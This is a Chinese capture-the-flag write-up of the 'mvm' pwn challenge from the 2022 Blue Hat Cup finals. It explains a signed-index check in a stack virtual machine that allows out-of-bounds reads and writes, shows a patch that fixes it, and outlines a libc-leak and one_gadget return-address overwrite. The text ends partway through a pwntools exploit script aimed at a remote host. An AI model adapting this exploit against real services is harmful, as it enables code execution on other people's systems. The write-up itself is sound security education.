 2022蓝帽杯决赛
=========

![image-20220921222807279](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-f0604a724aaecfe159c7c881662c75dea0610b53.png)

pwn
---

### mvm

#### 分析

实现了一个栈的虚拟机，栈和寄存器之间的数据存取，以及栈的加减乘除等运算。

漏洞点在对寄存器下标检测时用的是**有符号数**，从而造成越界读写（为负数可**越界往前读**，下标为足够大的负数时，乘 8 后，会**溢出**回正数，从而造成越界写）：

![image-20220921172716157](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-805869ef309c33cb3525c524a1f395cd03e1f532.png)

![image-20220921172730509](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-00a488f438dcfc76d4065f76db92e578cba6dc2d.png)

![image-20220921175412406](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-57285424d467f7c6cde204069bc923b09bc3e8ca.png)

#### 防御

以上面的其一举例，将 jle 改成 jbe ，即无符号比较，修复漏洞成功。

![image-20220921172848934](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-8c1f81aa736a0d76a56b57b9a7c7ab66a08a95d3.png)

#### 攻击

利用越界读拿栈上的残留的 libc 基址，塞入栈里，压入 **one\_gadget** 与上述地址的偏移量，减一下，利用越界写写到返回地址处即可。

- **Exp**

```python
from pwn import *

se      = lambda data               :p.send(data) 
sa      = lambda delim,data         :p.sendafter(delim, data)
sl      = lambda data               :p.sendline(data)
sla     = lambda delim,data         :p.sendlineafter(delim, data)
sea     = lambda delim,data         :p.sendafter(delim, data)
rc      = lambda numb=4096          :p.recv(numb)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
uu32    = lambda data               :u32(data.ljust(4, '\0'))
uu64    = lambda data               :u64(data.ljust(8, '\0'))
lg = lambda name,data : p.success(name + ': \033[1;36m 0x%x \033[0m' % data)

elf = ELF('./mvm')
context(arch = elf.arch, os = 'linux',log_level = 'debug')
p = remote("39.105.99.40",16564)
'''
 tel 0x7ffe5a250510-0x20050-0x100 50
'''
size = 0
def push(num):
    global size
    size += 1
    return ('1\n'+str(num)+'\n')

def pop(num):
    global size
    size += 1
    return ('2\n')

def top(RegID):
```